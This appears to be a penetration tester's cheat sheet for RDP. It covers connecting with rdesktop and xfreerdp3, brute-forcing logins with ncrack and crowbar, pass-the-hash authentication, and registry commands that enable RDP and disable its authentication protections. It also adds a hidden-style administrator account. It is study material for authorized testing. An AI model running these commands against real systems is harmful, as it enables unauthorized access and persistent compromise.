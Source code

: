 ### **Checks**

- [ ] Check if you can login with default guest account and blank password
- [ ] Check if you can brute force users
- [ ] Check for BlueKeep

### Operators Handbook pg 362
Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

 Run to get freerdp3 packages to use `xfreerdp3`
 ```bash
 sudo apt install freerdp3-dev
 sudo apt install freerdp3-x11
 ```

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:
```
/tls-seclevel:0 /timeout:80000
```

```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET +auto-reconnect /dynamic-resolution
```

```bash - kali
xfreerdp3 /u:$USER /pth:$HASH /d:$NetBIOS_Domain_Name /v:$TARGET +auto-reconnect /dynamic-resolution
```

Connect with share:
```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /v:TARGET /drive:kali,/home/kali/Desktop/ +auto-reconnect /dynamic-resolution
```

#### xfreerdp3
```bash - kali
xfreerdp3 /v:$TARGET -sec-nla /u:"" +auto-reconnect /dynamic-resolution
```

```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET +auto-reconnect /dynamic-resolution
```

```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```
### Enabling RDP
```powershell - windows
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

```
sc start TermService
```

#### Add a new user to Admin, good for RDP
```batch - kali
net user foobar Pass123 /add
```

```batch - kali
net localgroup Administrators foobar /add
```

```batch - kali
sc config TermService start=auto
```

```batch - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

#### We can use `--packet-trace` to track the individual packages and inspect their contents manually
```bash 
nmap -sV -sC $TARGET -p3389 --packet-trace --disable-arp-ping -n
```

A Perl script named [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) has also been developed by [Cisco CX Security Labs](https://github.com/CiscoCXSecurity) that can unauthentically identify the security settings of RDP servers based on the handshakes.

To install:
```
sudo cpan 
```

Then type:
```
install Encoding::BER
```

```bash 
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
```

```
 ./rdp-sec-check.pl $TARGET
```


See also:
[[Crowbar]]